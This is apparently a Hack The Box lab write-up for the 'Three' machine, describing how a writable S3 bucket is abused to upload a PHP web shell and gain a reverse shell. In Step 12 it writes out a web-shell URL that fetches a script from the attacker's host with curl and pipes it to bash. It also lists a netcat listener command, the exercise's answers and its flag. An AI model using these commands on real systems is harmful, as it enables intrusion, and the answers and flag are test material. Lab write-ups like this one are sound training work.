# HTB — Three (Starting Point Tier 1)
**Date:** June 8, 2026
**Difficulty:** Very Easy
**OS:** Linux

## Tasks
* **Task 1:** How many TCP ports are open? **2**
* **Task 2:** What is the domain of the email address provided in the "Contact" section of the website? **thetoppers.htb**
* **Task 3:** In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames? **/etc/hosts**
* **Task 4:** Which sub-domain is discovered during further enumeration? **s3.thetoppers.htb**
* **Task 5:** Which service is running on the discovered sub-domain? **Amazon S3**
* **Task 6:** Which command line utility can be used to interact with the service running on the discovered sub-domain? **awscli**
* **Task 7:** Which command is used to set up the AWS CLI installation? **aws configure**
* **Task 8:** What is the command used by the above utility to list all of the S3 buckets? **aws s3 ls**
* **Task 9:** This server is configured to run files written in what web scripting language? **PHP**

## Objective
Exploit a misconfigured Amazon S3 bucket to upload a PHP web shell, then escalate to an interactive reverse shell to execute system commands and retrieve the root flag.

## Tools Used
- nmap
- gobuster
- awscli
- curl
- netcat

## Methodology
1. Ran `nmap` to discover open ports → found port 22 (SSH) and 80 (HTTP). 
2. Visited the website, found an email domain (`thetoppers.htb`), and added it to `/etc/hosts`.
3. Used `gobuster` to brute-force subdomains and found `s3.thetoppers.htb`.
4. Identified the subdomain as an Amazon S3 instance. Configured `awscli` with dummy credentials to interact with it.
5. Listed the contents of the S3 bucket, revealing it contained the website's source code.
6. Uploaded a simple PHP web shell to the bucket to achieve initial code execution.
7. Prepared a bash reverse shell script and hosted it on a local Python HTTP server.
8. Used the PHP web shell to fetch and execute the bash script, catching the reverse shell with `netcat` to read the flag.

## Step-by-Step

**Step 1: Enumeration**
An Nmap scan reveals that ports 22 (SSH) and 80 (HTTP) are open.



**Step 2: Web Reconnaissance**
Browsing to the web page on port 80, we check the "Contact" section and find an email address `mail@thetoppers.htb`, revealing the domain name.



**Step 3: Host Resolution**
We edit our `/etc/hosts` file using `nano` and add an entry mapping the target IP to `thetoppers.htb`.




**Step 4: Subdomain Enumeration**
Using `gobuster` with a DNS wordlist in `vhost` mode, we discover the subdomain `s3.thetoppers.htb`.



We add this new subdomain to our `/etc/hosts` file as well.



**Step 5: AWS CLI Configuration**
Recognizing "s3" implies an Amazon S3 bucket, we configure the `awscli` tool using `aws configure`. We provide arbitrary values (like 'temp') since the bucket might be misconfigured to allow unauthenticated or poorly authenticated access.



**Step 6: S3 Bucket Interaction**
We use the AWS CLI to list the available buckets on the endpoint `http://s3.thetoppers.htb`, revealing a bucket named `thetoppers.htb`.



Listing the contents of that specific bucket, we see web files, including an `index.php` file, indicating the server processes PHP.



**Step 7: Web Shell Creation & Upload**
We create a simple PHP web shell file named `shell.php` that executes system commands passed via the `cmd` GET parameter.



We then use the AWS CLI to upload (`cp`) our `shell.php` file directly into the S3 bucket.



**Step 8: Verifying Command Execution**
We verify the upload and check for code execution by navigating to our shell in the browser and passing a simple command like `id` via the `cmd` parameter (`http://thetoppers.htb/shell.php?cmd=id`). The output confirms we are running as `www-data`.



**Step 9: Finding Attacker IP**
Before crafting our reverse shell, we need to determine our own VPN IP address. We use the `ip a` command in our terminal.



We look for our `tun0` interface and note the IP address (`10.10.14.149`).



**Step 10: Setting up the Listener**
We set up a netcat listener on our attacking machine on port 1337 (`nc -nvlp 1337`) to catch the incoming connection.



**Step 11: Reverse Shell Preparation**
To get a more stable, interactive shell, we write a standard bash reverse shell payload to a file named `shell.sh`, making sure to insert our `tun0` IP address and our chosen listening port.



We then start a Python HTTP server (`python -m http.server 8000`) in the same directory to host this file so the target machine can download it.



**Step 12: Triggering the Payload**
Using our web shell in the browser, we execute a command to fetch our script using `curl` and pipe it directly into `bash` to run it. The URL payload looks like this: `http://thetoppers.htb/shell.php?cmd=curl 10.10.14.149:8000/shell.sh | bash`. 



**Step 13: Catching the Shell & Retrieving the Flag**
Our netcat listener catches the connection, granting us an interactive shell on the server as the `www-data` user. We list the directory contents and read the `flag.txt` file to complete the machine.




## Key Learning
Misconfigured cloud storage (like Amazon S3 buckets) that allow public write access can be completely devastating. If a bucket is used to serve web content and allows arbitrary file uploads, an attacker can upload server-side scripts (like PHP shells). From there, it is trivial to escalate to a fully interactive reverse shell and achieve remote code execution (RCE) on the underlying infrastructure.

## Flag
[a980d99281a28d638ac68b9bf9453c2b]